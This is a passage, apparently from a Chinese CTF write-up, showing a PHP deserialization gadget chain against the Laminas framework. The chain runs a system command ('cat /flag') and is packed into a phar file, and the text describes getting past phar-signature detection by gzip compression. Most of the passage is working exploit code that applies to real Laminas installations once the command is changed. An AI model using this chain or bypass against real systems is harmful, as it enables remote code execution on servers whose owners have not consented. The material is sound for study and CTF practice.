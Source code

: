 ```php
```
那么就好做了，首先去找链子
如下链子可以rce，直接构造phar文件
```php
<?php

namespace Laminas\View\Resolver{
	class TemplateMapResolver{
		protected $map = ["setBody"=>"system"];
	}
}
namespace Laminas\View\Renderer{
	class PhpRenderer{
		private $__helpers;
		function __construct(){
			$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
		}
	}
}


namespace Laminas\Log\Writer{
	abstract class AbstractWriter{}
	
	class Mail extends AbstractWriter{
		protected $eventsToMail = ["cat /flag"];
		protected $subjectPrependText = null;
		protected $mail;
		function __construct(){
			$this->mail = new \Laminas\View\Renderer\PhpRenderer();
		}
	}
}

namespace Laminas\Log{
	class Logger{
		protected $writers;
		function __construct(){
			$this->writers = [new \Laminas\Log\Writer\Mail()];
		}
	}
}

namespace{
$a = new \Laminas\Log\Logger();
@unlink("phar.phar");
$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); 
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
}
```
由于他会对phar文件的特征进行识别，所以我们需要加以绕过，[这里](https://www.freebuf.com/articles/web/291992.html)有两个绕过方法，我直接把phar文件进行gzip压缩，这样就没有特征了
